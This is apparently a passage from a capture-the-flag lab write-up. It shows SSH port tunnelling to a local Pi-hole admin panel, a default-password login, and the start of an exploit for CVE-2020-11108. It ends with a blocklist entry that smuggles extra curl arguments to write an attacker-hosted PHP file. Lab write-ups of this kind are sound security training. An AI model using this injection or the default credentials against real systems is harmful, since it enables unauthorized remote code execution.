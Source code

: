 Pi-Hole docker was running. Pi-Hole is used to block ads in the whole network rather than using adblocker in specific devices.

Viewing ports that box is listening to

![](https://cdn-images-1.medium.com/max/2000/1*ILsO6iVt4RMy4qWOopUijw.png)

Here we can see it is listening to 5553 and 8080 on localhost i.e accessible only from inside.

So I used systemctl to view the status of docker

![](https://cdn-images-1.medium.com/max/2096/1*0lawtJsfsWuCbv3d6JVKPQ.png)

So the host port 8080 is mapped to container port 80.

![](https://cdn-images-1.medium.com/max/2000/1*i9NI4TEBvVLazC3H1uHOFw.png)

On googling the error I found it is about pi hole, so we are in right track.

In order to access using the browser, I tunnelled the port to port 8000.

## SSH tunnelling

    $ ssh -L 8000:127.0.0.1:8080 bryan@10.10.10.200

On accessing localhost:8000, still getting the same message.

![](https://cdn-images-1.medium.com/max/2000/1*7KQo0nc8hNZSE8oezNkkiA.png)

Since pihole has an admin interface, I tried accessing that

    http://localhost:8000/admin

![](https://cdn-images-1.medium.com/max/2000/1*NVypxJBoJDyMlQW49syo0A.png)

The login page asks for password

![](https://cdn-images-1.medium.com/max/2000/1*Ccyz7S15kejtDFwEJsjE6w.png)

On trying default credentials it worked with password **admin. **On bottom right corner we can see the version

    **Pi-hole Version **v4.3.2 **Web Interface Version **v4.3 **FTL Version **v4.3.1

## Exploiting CVE-2020–11108

This is better explained at h[ttps://frichetten.com/blog/cve-2020–11108-pihole-rce/](https://frichetten.com/blog/cve-2020-11108-pihole-rce/)

And this version has a vulnerability CVE-2020–11108. The author of cve has an [article](https://frichetten.com/blog/cve-2020-11108-pihole-rce/) on how to exploit this feature. If you want more details read the article.

What we need to do is add an entry to the blocklists. settings > blocklists

    **http://<your-ip-address>#" -o fun.php -d "**
